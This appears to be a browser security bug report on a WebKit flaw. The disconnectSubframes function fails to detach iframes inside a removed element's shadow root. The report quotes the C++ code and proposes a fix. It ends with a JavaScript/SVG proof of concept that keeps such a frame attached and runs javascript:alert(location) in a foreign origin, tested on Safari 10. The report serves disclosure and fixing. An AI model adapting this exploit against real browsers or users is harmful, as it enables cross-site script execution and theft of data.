 When an element is removed from a document, the function |disconnectSubframes| is called to detach its subframes(iframe tag, object tag, etc.).

Here is a snippet of |disconnectSubframes|.

void disconnectSubframes(ContainerNode& root, SubframeDisconnectPolicy policy)
{
    ...
    Vector<Ref<HTMLFrameOwnerElement>> frameOwners;

    if (policy == RootAndDescendants) {
        if (is<HTMLFrameOwnerElement>(root))
            frameOwners.append(downcast<HTMLFrameOwnerElement>(root));
    }

    collectFrameOwners(frameOwners, root);

    // Must disable frame loading in the subtree so an unload handler cannot
    // insert more frames and create loaded frames in detached subtrees.
    SubframeLoadingDisabler disabler(root);

    bool isFirst = true;
    for (auto& owner : frameOwners) {
        // Don't need to traverse up the tree for the first owner since no
        // script could have moved it.
        if (isFirst || root.containsIncludingShadowDOM(&owner.get()))
            owner.get().disconnectContentFrame();
        isFirst = false;
    }
}

The bug is that it doesn't consider |root|'s shadowroot. So any subframes in the shadowroot will be never detached.

It should be like:

    ...
    collectFrameOwners(frameOwners, root);

    if (is<Element>(root)) {
        Element& element = downcast<Element>(root);
        if (ShadowRoot* shadowRoot = element.shadowRoot())
            collectFrameOwners(frameOwners, \*shadowRoot);
    }
    ...


PoC:
```
var d = document.body.appendChild(document.createElement("div"));
var s = d.attachShadow({mode: "open"});

var f = s.appendChild(document.createElement("iframe"));

f.onload = () => {
    f.onload = null;

    f.src = "javascript:alert(location)";

    var xml = `
<svg xmlns="http://www.w3.org/2000/svg">
<script>
document.documentElement.appendChild(parent.d);

</sc` + `ript>
<element a="1" a="2" />
</svg>`;

    var v = document.body.appendChild(document.createElement("iframe"));
    v.src = URL.createObjectURL(new Blob([xml], {type: "text/xml"}));
};

f.src = "https://abc.xyz/";
```

Tested on Safari 10.0.2(12602.3.12.0.1)
